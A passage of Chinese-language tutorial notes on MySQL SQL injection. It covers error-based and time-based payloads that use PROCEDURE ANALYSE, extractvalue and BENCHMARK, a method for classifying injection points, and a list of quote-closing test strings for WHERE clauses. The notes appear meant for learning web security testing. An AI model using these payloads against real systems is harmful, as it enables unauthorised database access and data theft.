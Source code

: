 ```SQL
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

**payload**
```SQL
基于爆错
SELECT * FROM users WHERE id>0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
基于时间
SELECT * FROM users WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

新版本的貌似不能支持analyse里面进行select语句查询了

# 整理

一个注入点，首先判断是什么位置的注入：where、update、insert、order by、limit；
然后根据不同的注入位置，猜测查询语句。这个可能需要后面进行一些框架注入漏洞的学习之后才能够猜的准确。
首先从where分析

## where查询的注入

where查询的最基本语句：
```sql
select username from users where id='$id'
```
首先进行最基本的测试，进行判断能否成功闭合语句。

**测试语句**
有以下但不限于以下的语句：
```SQL
0 or 1
0 or 1 %23
0 or 1 --+
0' or '1
0' or '1' %23
0' or '1' --+ 
0" or "1
0') or ('1
0') or ('1') %23
0') or ('1') --+
0") or ("1
0'^'1
0'^'1' %23
0'^'1' --+
```
